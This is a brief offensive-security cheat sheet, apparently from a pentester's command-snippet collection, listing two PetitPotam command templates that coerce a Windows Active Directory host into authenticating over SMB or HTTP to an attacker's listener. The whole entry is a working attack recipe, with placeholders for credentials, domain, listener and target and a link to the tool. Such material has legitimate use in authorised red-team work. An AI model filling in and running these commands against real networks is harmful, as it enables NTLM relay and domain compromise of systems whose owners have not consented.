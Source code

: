 # Petitpotam

% petitpotam, Active directory

## coerce to auth over SMB
#plateform/linux  #target/remote #cat/ATTACK/COERCE
https://github.com/topotam/PetitPotam
```
PetitPotam.py -u <user> -p '<password>' -d <domain> <listener_ip> <target_ip>
```

## coerce to auth over HTTP
#plateform/linux  #target/remote #cat/ATTACK/COERCE
https://github.com/topotam/PetitPotam
```
PetitPotam.py -u <user> -p '<password>' WIN-JUBEAZ@80/files <target_ip>
```